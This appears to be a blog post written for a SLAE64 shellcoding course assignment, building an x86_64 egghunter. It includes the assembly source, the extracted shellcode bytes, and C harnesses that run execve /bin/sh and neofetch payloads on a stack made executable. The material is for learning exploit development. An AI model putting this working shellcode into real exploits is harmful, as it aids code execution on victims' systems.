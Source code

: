 ```yaml
---
layout: post
title: x86_64 Egghunter
date: 2021-01-14 13:44:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification. Today we are going to have a close look at Egghunters. 

An Egghunter is a form of malware, commonly used during Exploit-Development sessions in order to process bigger shellcode when there is low space available. The process is quite 
simple, this will search for a specific tag within the memory. When found, the flow will be passed upon the instructions following the tag, executing the original shellcode. 

The third assignment from the seven requires the creation of an Egghunter through the Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required to test such.

##### Methods

In order to create an Egghunter shellcode, there are several paths. However, as the time goes on, newer techniques are implemented that make shellcoding easier. I have chosen to 
cover a modern method which is fast, and tends to be very small regarding size. This method obeys the following procedure:

+ RCX is chosen as the register to compare with the tag.
+ The tag is saved on RBP. This tag will not be hardcoded.
+ RCX is incremented.
+ RBP is compared against RCX.
+ If the Zero flag (ZF) hasn't been set, repeat this loop.
+ Give RCX the value of RCX+8, in order to jump exactly within the shellcode and not the tag.
+ Jump to RCX.

Code:

```term
global _start

_start:

       inc rdx                     ; Increments RDX.
       push rdx                    ; Pushes the value of RDX into the Stack.
       pop rcx                     ; Pops the top of the Stack into RCX.

       mov rbp, 0x5756575657565756 ; Original tag should be 0x4645464546454645.
       mov rbx, 0x1111111111111111 ; Gives the value "0x1111111111111111" to RBX.
       sub rbp, rbx                ; RBP is substracted by RBX.

main:

       inc rcx                     ; RCX is incremented.
       cmp rbp, [rcx]              ; RBP is compared against RCX.
       jnz main                    ; Jump to main if the Zero flag (ZF) hasn't been set.

       lea rcx, [rcx + 8]          ; Copy RCX+8 into RCX.

       jmp rcx                     ; Jump into RCX.
```

Let's assemble this, link it, and get its shellcode.

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo 
\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$
```

###### C format

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1"

;

unsigned char code[] = \
"\x45\x46\x45\x46\x45\x46\x45\x46"
"\x48\x31\xc0\x48\x31\xf6\x48\x31\xdb\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

;

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ gcc egghunter-x86_64.c -o egghunter-x86_64 -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ ./egghunter-x86_64 
Shellcode size:  44
Egg size:  42
$
```

As exactly as in the [x86 version of this post](https://whitecr0wz.github.io/posts/SLAE-Egghunter/), it was required that the egghunter had to be configurable for distinct payload. Due to the reason that the only thing required is the tag, this is rather easy, let's test it with an execve shellcode that executes neofetch.

###### C format #2

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1"

;

unsigned char code[] = \
"\x45\x46\x45\x46\x45\x46\x45\x46"
"\x48\x31\xc0\x50\x48\xbb\x6e\x65\x6f\x66\x65\x74\x63\x68\x53\x48\xbb\x75\x73\x72\x2f\x62\x69\x6e\x2f\x53\x48\xbb\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

;

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$ gcc neofetch.c -o neofetch -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$ ./neofetch 
Shellcode size:  60
Egg size:  42
       _,met$$$$$gg.          whitecr0wz@SLAE64
    ,g$$$$$$$$$$$$$$$P.       -----------------
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64
 ,$$P'              `$$$.     Host: VirtualBox 1.2
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-13-amd64
`d$$'     ,$P"'   .    $$$    Uptime: 8 mins
 $$P      d$'     ,    $$P    Packages: 475 (dpkg)
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3
 $$;      Y$b._   _,d$P'      CPU: Intel i5-8300H (1) @ 2.304GHz
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter
 `$$b      "-.__              Memory: 66MiB / 987MiB
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_3).
